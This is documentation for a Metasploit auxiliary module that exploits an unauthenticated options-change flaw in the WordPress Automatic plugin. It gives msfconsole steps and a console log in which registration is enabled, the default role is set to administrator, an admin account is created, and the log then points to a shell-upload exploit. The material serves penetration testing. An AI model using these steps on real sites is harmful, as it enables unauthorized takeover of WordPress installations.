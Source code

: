 ## Vulnerable Application

This module exploits an unauthenticated arbitrary wordpress options change vulnerability
in the Automatic (wp-automatic) plugin.

If `WPEMAIL` is provided, the administrator's email address will be changed.

User registration is enabled, and default user role is
set to administrator.  A user is then created with the `USER` name set.
A valid `EMAIL` is required to get the registration email (not handled in MSF).

A vulnerable version of the plugin can be downloaded [here](https://legendblogs.com/wp-automatic-plugin-free-download)

## Verification Steps

1. Install the vulnerable plugin
1. Start msfconsole
1. Do: `use auxiliary/admin/http/wp_automatic_plugin_privesc`
1. Do: `set rhosts [IPs]`
1. Do: `set email [email address]`
1. Do: `run`
1. You should get an email to setup your new admin account.

## Options

### EMAIL

Email for registration. No default.

### USER
Username for registration, defaults to `msfuser`

### WPEMAIL

Wordpress Administration Email. No default.

## Scenarios

### wp-automatic 3.50.7 on Wordpress 5.4.4 No WPEMAIL

```
resource (automatic.rb)> use auxiliary/admin/http/wp_automatic_plugin_privesc
[*] Using auxiliary/admin/http/wp_automatic_plugin_privesc
resource (automatic.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (automatic.rb)> set verbose true
verbose => true
resource (automatic.rb)> set email fake@example.com
email => fake@example.com
resource (automatic.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Enabling user registrations...
[*] Setting the default user role type to administrator...
[*] Registering msfuser with email fake@example.com
[+] For a shell: use exploits/unix/webapp/wp_admin_shell_upload
[*] Auxiliary module execution completed
```
